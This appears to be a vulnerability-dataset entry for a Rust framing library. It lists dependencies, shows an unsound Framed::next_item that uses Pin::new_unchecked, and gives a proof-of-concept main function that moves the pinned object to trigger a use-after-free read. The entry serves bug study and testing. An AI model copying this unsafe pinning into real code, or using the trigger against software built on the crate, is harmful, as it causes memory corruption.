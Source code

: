 ## Dependencies:
- Crates:
  - `bitflags = "1.2"`
  - `bytes = "0.5"`
  - `futures = "0.3"`
  - `futures-core = "0.3"`
  - `futures-sink = "0.3"`
  - `pin-project = "1.0"`
  - `tokio = { version = "0.2", features = ["io-util"] }`
- Modules:
  - `std::future::Future`
  - `std::io`
  - `std::marker::Unpin`
  - `std::mem`
  - `std::pin::Pin`
  - `std::task::{Context, Poll}`
  - `bytes::{Bytes, BytesMut}`
  - `futures::channel::oneshot`
  - `futures::task::noop_waker`
  - `pin_project::pin_project`
  - `tokio::io::{AsyncRead, AsyncReadExt, AsyncWrite}`
- Types:
  - Structs: `Framed`, `BytesCodec`, `FakeSocket`, `BytesMut`, `Bytes`
  - Enums: `Poll`, `Result`, `Option`
- Traits:
  - `Decoder`
  - `Encoder`
  - `Future`
  - `AsyncRead`
  - `AsyncWrite`
  - `Unpin`
- Functions and Methods:
  - Associated Functions: `Framed::new`, `Context::from_waker`, `futures::channel::oneshot::channel`
  - Methods: `Framed::next_item`, `mem::replace`, `noop_waker`, `sender.send`, `receiver.await`
- Macros:
  - `bitflags!`
  - `pin_project!`

## Vulnerable Code:
```rust
impl<T, U> Framed<T, U> {
    pub fn next_item(&mut self, cx: &mut Context<'_>) -> Poll<Option<Result<U::Item, U::Error>>>
    where
        T: AsyncRead,
        U: Decoder,
    {
        loop {
            // ... (code omitted for brevity) ...

            // Otherwise, try to read more data and try again. Make sure we've got room
            let remaining = self.read_buf.capacity() - self.read_buf.len();
            if remaining < 1024 { // LW
                self.read_buf.reserve(8192 - remaining) // HW
            }
            let cnt = match unsafe {
                Pin::new_unchecked(&mut self.io).poll_read_buf(cx, &mut self.read_buf)
            } {
                Poll::Pending => return Poll::Pending,
                Poll::Ready(Err(e)) => return Poll::Ready(Some(Err(e.into()))),
                Poll::Ready(Ok(cnt)) => cnt,
            };

            if cnt == 0 {
                self.flags.insert(Flags::EOF);
            }
            self.flags.insert(Flags::READABLE);
        }
    }
}
```

## Trigger Method:(customized)
```rust
fn main() {
  let (wake_tx, wake_rx) = oneshot::channel::<()>();
  let (result_tx, mut result_rx) = oneshot::channel::<u64>();

  const ORIGINAL_PATTERN: u64 = 0xFEEDBEEF_CAFEBABE;
  const CORRUPTING_BYTE: u8 = 0x41; // 'A'
  const CORRUPTING_PATTERN: u64 = u64::from_ne_bytes([CORRUPTING_BYTE; 8]);
  const CORRUPTING_BYTE_ARRAY: [u8; 32] = [CORRUPTING_BYTE; 32];

  let mut framed: Result<_, [u8; 32]> = Ok(Framed::new(
    FakeSocket {
      inner: async move {
        // Data on the stack that will become dangling.
        let original_data = ORIGINAL_PATTERN.to_ne_bytes();
        let y_ptr = &original_data as *const _ as *const u64;

        // Wait until the Framed object is moved.
        let _ = wake_rx.await;

        // UAF: Read from the dangling pointer.
        // This reads the bytes from CORRUPTING_BYTE_ARRAY.
        let corrupted_value = unsafe { *y_ptr };
        let _ = result_tx.send(corrupted_value);
      },
    },
    BytesCodec,
  ));

  let waker = noop_waker();
  let mut context = Context::from_waker(&waker);

  // Poll once to create the stack frame and pointer `y_ptr`.
  let _ = framed.as_mut().unwrap().next_item(&mut context);

  // Move `Framed`, dropping its internal future's stack and replacing it.
  let mut moved_framed = mem::replace(&mut framed, Err(CORRUPTING_BYTE_ARRAY)).unwrap();

  // Wake the (now dangling) future.
  wake_tx.send(()).unwrap();

  // Poll again to execute the UAF read.
  let _ = moved_framed.next_item(&mut context);

  // Check the result using a non-blocking method.
  let value_after_uaf = result_rx
          .try_recv()
          .expect("Receiver should not be canceled")
          .expect("Future should have sent a value");

  println!("Original pattern:    {:#x}", ORIGINAL_PATTERN);
  println!("Corrupting pattern:  {:#x}", CORRUPTING_PATTERN);
  println!("Value read after UAF:{:#x}", value_after_uaf);
  assert_eq!(
    value_after_uaf, CORRUPTING_PATTERN,
    "UAF read should yield the corrupting pattern."
  );
  assert_ne!(
    value_after_uaf, ORIGINAL_PATTERN,
    "Corrupted value should not be the original value."
  );

  println!("\nSUCCESS: The value was successfully corrupted, proving the Use-After-Free.");
}
```